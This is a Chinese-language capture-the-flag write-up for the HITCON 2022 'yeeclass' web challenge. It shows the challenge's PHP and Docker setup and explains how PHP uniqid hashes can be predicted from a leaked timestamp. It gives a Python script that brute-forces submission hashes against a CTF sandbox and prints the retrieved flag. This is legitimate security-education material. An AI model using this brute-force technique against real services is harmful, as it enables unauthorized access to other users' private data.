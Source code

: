 ::: info
2022-HitCon-Web-yeeclass
:::

# 1、思路

（1）`init.sql` 创建表：homework、user、submission

（2）`docker-compose.yml` 创建容器

```yml
  web:
    build:
      context: ./
      # args:
        # TURNSTILE_SECRETKEY: <your-own-key>
        # TURNSTILE_SITEKEY: <your-own-key>
    environment:
      - FLAG=hitcon{not_flag}
    ports:
      - 16875:80/tcp
    depends_on:
      database:
        condition: service_healthy
    entrypoint:
      - bash
      - -c
      - |
        set -e
        echo 'running init.php'
        php -f /tmp/init.php
        rm /tmp/init.php
        
        echo 'initialization done, starting apache'
        exec apache2-foreground
```

（3）`init.php` 创建用户 flagholder，密码随机，并提交了一份包含 flag 的作业，其哈希值为变量 id 的 sha1， `$id = uniqid($username."_");`

```php
<?php 

$pdo = new PDO("mysql:host=database;dbname=yeeclass", "yeeclass", "yeeclass");

$username = "flagholder";
$password = base64_encode(random_bytes(40));

echo "Username: $username; Password: $password\n";

// create user
$user_query = $pdo->prepare("INSERT INTO user (username, `password`, class) VALUES (?, ?, ?)");
$user_query->execute(array($username, hash("md5", $password), 0));

// submit flag
$id = uniqid($username."_");
echo $id."\n";

$submit_query = $pdo->prepare("INSERT INTO submission (`hash`, userid, homeworkid, score, content) VALUES (?, ?, ?, ?, ?)");
$submit_query->execute(array(
    hash("sha1", $id),
    $pdo->lastInsertId(),
    1,
    100,
    $_ENV["FLAG"]
));

?>
```

（4）本地部署的容器输出用户名和随机创建的密码（非服务端），网页端登陆查看提交的 flag 为 hitcon{not_flag} http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash=6d2fca6a74e7e8c6abf1e6f8bf8c8ecc20015f69

```
yeeclass-web-1       | running init.php
yeeclass-web-1       | Username: flagholder; Password: dsapiA9cJ/ti0mb/nwrDl7jChTdfoznUyVdTZT95MYIEBxjpLaYf4Q==
yeeclass-web-1       | flagholder_65dca4328cdd1
yeeclass-web-1       | initialization done, starting apache
```

（5）`submission.php` 支持

- 哈希查询，即可以在不登陆用户情况下通过访问 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash= + 哈希值的方式获取提交的文件
- homeworkid 查询 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?homeworkid= + homework
- userid 查询

```php
if (isset($_GET["hash"]) && $_GET["hash"] != "") {
    // view single submission
    $mode = "view";
    $submission_query = $pdo->prepare("SELECT s.*, u.username, h.name from submission s LEFT JOIN user u ON u.id=s.userid LEFT JOIN homework h ON h.id=s.homeworkid WHERE s.`hash`=?");
    $submission_query->execute(array($_GET["hash"]));
    $result = $submission_query->fetch(PDO::FETCH_ASSOC);

    if (!$result) {
        http_response_code(404);
        die("Submission not found.");
    }
} else {
    // list submissions
    if (isset($_GET["homeworkid"])) {
      ……
    } else if (isset($_SESSION["userid"])) {
      ……
    } else {
        http_response_code(400);
        die("Insufficient parameters");
    }   
}
```

# 2、获取哈希值

哈希值为

```php
$id = uniqid($username."_");
hash("sha1", $id)
```

## uniqid

https://www.php.net/manual/zh/function.uniqid.php

uniqid 的生成方式是 `{sec:08x}{usec:05x}`，13 位 16 进制数

带上前缀：

```php
<?php
    $username = "test";
    echo uniqid($username."_");
		// test_65dd46ee5dc2a
?>
```

## 入库时间

通过 homework 查询 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?homeworkid=1 得到 2024-02-27 10:51:12.808250

## 爆破时间差

入库时间和 `uniqid` 由于运行效率，会存在微秒时间差，因而需要爆破该时间差

# 3、exp

```python
import hashlib
import requests
from datetime import datetime


username = "flagholder"

# timestamp => sec, usec
timestamp = "2024-02-27 10:51:12.808250"
dt = datetime.fromisoformat(timestamp)
sec = int(dt.timestamp())
usec = dt.microsecond


# hash(id)
def get_hash(usec):
    id = f"{username}_{sec:08x}{usec:05x}"
    return hashlib.sha1(id.encode()).hexdigest() 


# 爆破时间差
url = "http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash="
for i in range(0, 1000):
    hash = get_hash(usec-i)
    r = requests.get(url + hash)
    if r.status_code != 404:
        print(r.text)
```

获得 flag

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>yeeclass | Submission</title>
    <link rel="stylesheet" href="static/style.css">
</head>
<body>
    <div id="main">
        <header id="header">
            <h1>yeeclass</h1>
            <nav>
    <a href="index.php">[Home]</a>    <div class="right">
            <form action="index.php" method="POST">
            <input type="text" name="username" id="username" placeholder="Username" pattern="^\w{6,20}$" autocomplete="off">
            <input type="password" name="password" id="password" placeholder="Password" autocomplete="off">
            <input type="submit" value="Login/Register">
        </form>
        </div>
</nav>        </header>
        <hr>
                <section id="view">
            <h3>flagholder_Flag <a href="submit.php?homeworkid=1&delete=e23b7340a6cfd1939d4be49af0027620f917f712">[Delete]</a></h3>
            <p>Time: 2024-02-27 10:51:12.808250</p>
            <p>Score: 100</p>
            <pre>ctfhub{b52b822e45e613f4dcbf5f50}</pre>
        </section>
            </div>
</body>
</html>
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>openresty/1.21.4.2</center>
</body>
</html>
```


